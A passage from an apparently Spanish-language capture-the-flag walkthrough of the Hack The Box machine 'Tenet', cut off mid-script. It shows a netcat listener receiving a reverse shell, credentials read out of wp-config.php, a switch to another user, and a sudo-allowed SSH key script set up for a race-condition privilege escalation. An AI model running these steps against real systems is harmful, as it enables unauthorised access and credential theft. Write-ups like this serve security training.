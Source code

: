 ```bash
❯ nc -nlvp 9000 
```

```ruby
listening on [any] 9000 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.223] 19458
bash: cannot set terminal process group (1739): Inappropriate ioctl for device
bash: no job control in this shell
www-data@tenet:/var/www/html$
```

## Post-exploitation

- Information Leakage

```bash
www-data@tenet:/var/www/html/wordpress$ cat wp-config.php | grep password -C2
```

```ruby
define( 'DB_USER', 'neil' );

/** MySQL database password */
define( 'DB_PASSWORD', 'Opera2112' );
```

> Credenciales encontradas: neil:Opera2112

- Pivoting

```bash
www-data@tenet:/var/www/html/wordpress$ su neil
```

```ruby
Password: 
neil@tenet:/var/www/html/wordpress$ 
```

- Find Sudoers

```bash
neil@tenet:/tmp$ sudo -l
```

```ruby
Matching Defaults entries for neil on tenet:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:

User neil may run the following commands on tenet:
    (ALL : ALL) NOPASSWD: /usr/local/bin/enableSSH.sh
```

- Race Condition

```bash
neil@tenet:~$ cat /usr/local/bin/enableSSH.sh
#!/bin/bash

checkAdded() {

	sshName=$(/bin/echo $key | /usr/bin/cut -d " " -f 3)

	if [[ ! -z $(/bin/grep $sshName /root/.ssh/authorized_keys) ]]; then

		/bin/echo "Successfully added $sshName to authorized_keys file!"

	else

		/bin/echo "Error in adding $sshName to authorized_keys file!"
```